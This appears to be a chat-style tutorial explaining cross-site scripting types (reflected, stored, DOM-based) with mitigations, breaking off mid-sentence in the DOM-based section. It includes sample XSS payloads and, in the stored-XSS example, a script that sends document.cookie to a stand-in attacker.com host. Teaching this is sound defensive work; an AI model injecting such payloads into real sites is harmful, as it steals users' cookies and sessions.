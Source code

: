 

# Introduction to Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a common web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These attacks occur when an application includes untrusted data without proper validation or escaping.

## Key Concepts

1. **How XSS Works**:
   - Attacker injects malicious JavaScript code into a vulnerable website
   - Victim's browser executes the code in the context of the trusted site
   - Attacker can steal cookies, session tokens, or perform actions on behalf of the user

2. **Types of XSS**:
   - **Stored/Persistent XSS**: Malicious script is permanently stored on the target server
   - **Reflected XSS**: Malicious script is reflected off a web server in response
   - **DOM-based XSS**: Vulnerability exists in client-side code rather than server-side code

3. **Common Attack Vectors**:
   ```html
   <script>alert('XSS')</script>
   ```
   ```html
   <img src="x" onerror="alert('XSS')">
   ```
   ```javascript
   javascript:alert('XSS')
   ```

## Prevention Techniques

- Input validation and output encoding
- Implementing Content Security Policy (CSP)
- Using secure frameworks that auto-escape content
- Setting HttpOnly flag on cookies

Understanding XSS is fundamental for both developers (to prevent vulnerabilities) and security professionals (to test for them).

Further Explain the types of XSS extensively

 # **Introduction to Cross-Site Scripting (XSS) - Types Explained Extensively**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the victim's browser, potentially stealing sensitive data, hijacking sessions, or defacing websites.

XSS attacks are categorized into three main types:

1. **Reflected XSS**  
2. **Stored XSS**  
3. **DOM-based XSS**  

Each type has distinct characteristics and exploitation methods.

---

## **1. Reflected XSS (Non-Persistent)**
Reflected XSS occurs when malicious input from a user is immediately returned by the web application in an unsafe manner, typically in an error message, search result, or URL parameter.

### **How It Works:**
- The attacker crafts a malicious URL containing JavaScript.
- The victim clicks the link (e.g., via phishing).
- The server reflects the script back in the response.
- The victim's browser executes the script.

### **Example:**
```http
https://example.com/search?query=<script>alert('XSS')</script>
```
If the website displays `query` without sanitization, the script runs.

### **Impact:**
- Session hijacking via `document.cookie`.
- Redirecting users to malicious sites (`window.location`).
- Phishing attacks by modifying page content.

### **Mitigation:**
- Input validation & output encoding.
- Using Content Security Policy (CSP).
- Escaping user-supplied data before rendering.

---

## **2. Stored XSS (Persistent)**
Stored XSS occurs when malicious scripts are permanently stored on a target server (e.g., in a database, comment section, or forum post) and later executed when other users access the infected page.

### **How It Works:**
- Attacker submits malicious input stored on the server.
- Victim requests a page containing this stored data.
- Server serves the malicious script to the victim’s browser.
- Script executes in their context.

### **Example:**
A blog comment with:
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
When another user loads the page, their cookies are sent to the attacker.

### **Impact:**
- Long-term compromise of user accounts.
- Spread of malware

Continue from Stored XSS(persistent) Impact point

 Here's the continuation of the **Stored XSS (Persistent)** section, followed by **DOM-based XSS** and a conclusion:

---

## **2. Stored XSS (Persistent) - Continued**

### **Impact (Continued):**
- **Mass infection of users** (e.g., in social media posts or forums).  
- **Defacement of websites** by injecting permanent malicious content.  
- **Keylogging** by capturing user inputs (`onkeypress` events).  
- **Exploiting trust** (users trust the legitimate site, making attacks harder to detect).  

### **Mitigation:**  
- Strict input validation (whitelist allowed characters).  
- Output encoding before rendering user-generated content.  
- Regular security audits for stored data.  
- Use HTTP-only and Secure flags for cookies to limit theft.  

---

## **3. DOM-based XSS**  
DOM-based XSS occurs when JavaScript modifies the DOM unsafely using attacker-controlled input (e.g., URL fragments or `document.location`). Unlike Reflected/Stored XSS, the server isn’t directly